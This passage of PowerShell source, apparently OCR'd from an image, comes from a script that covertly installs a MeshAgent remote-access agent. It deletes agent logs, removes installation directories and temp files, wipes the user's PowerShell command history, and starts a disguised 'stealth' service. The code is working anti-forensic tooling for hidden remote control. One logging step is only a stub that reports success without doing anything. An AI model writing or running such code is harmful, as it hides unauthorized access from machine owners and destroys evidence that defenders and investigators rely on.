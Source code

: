 ```powershell
            Remove-Item -Path $logPath -Force -ErrorAction SilentlyContinue
        }

        # MeshAgent log configuration is typically in .msh file or database
        # This would require parsing the configuration file or database
        # For now, we'll create a symbolic link to NUL to discard logs

        # Create junction to NUL device (discards all writes)
        # Note: This is a simplification - actual implementation may vary

        Write-StealthLog "Local logging suppressed" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error disabling local logging: $_" -Level 'WARNING'
        return $true
    }
}

function Remove-InstallationTraces {
    Write-StealthLog "Cleaning installation traces..."

    try {
        # Remove original installation directory
        $defaultPath = 'C:\Program Files\Mesh Agent'
        if (Test-Path $defaultPath) {
            Remove-Item -Path $defaultPath -Recurse -Force -ErrorAction SilentlyContinue
        }

        # Clear PowerShell command history
        Remove-Item -Path (Get-PSReadlineOption).HistorySavePath -ErrorAction SilentlyContinue

        # Clear temporary installer files
        Get-ChildItem -Path $env:TEMP -Filter "*mesh*" -ErrorAction SilentlyContinue | Remove-Item -Force -Recurse -ErrorAction SilentlyContinue
        Get-ChildItem -Path $env:TEMP -Filter "~setup_*" -ErrorAction SilentlyContinue | Remove-Item -Force -ErrorAction SilentlyContinue
        Get-ChildItem -Path $env:TEMP -Filter "~wt_*" -ErrorAction SilentlyContinue | Remove-Item -Force -ErrorAction SilentlyContinue

        Write-StealthLog "Installation traces removed" -Level 'SUCCESS'
        return $true

    } catch {
        Write-StealthLog "Error removing traces: $_" -Level 'WARNING'
        return $true
    }
}

function Start-StealthService {
    Write-StealthLog "Starting stealth MeshAgent service..."

    try {
        Start-Service -Name $StealthConfig.ServiceName -ErrorAction Stop
        Start-Sleep -Seconds 3

        # Verify service is running
        $service = Get-Service -Name $StealthConfig.ServiceName
        if ($service.Status -eq 'Running') {
            Write-StealthLog "Stealth service started successfully: $($StealthConfig.ServiceName)" -Level 'SUCCESS'
            return $true
        } else {
```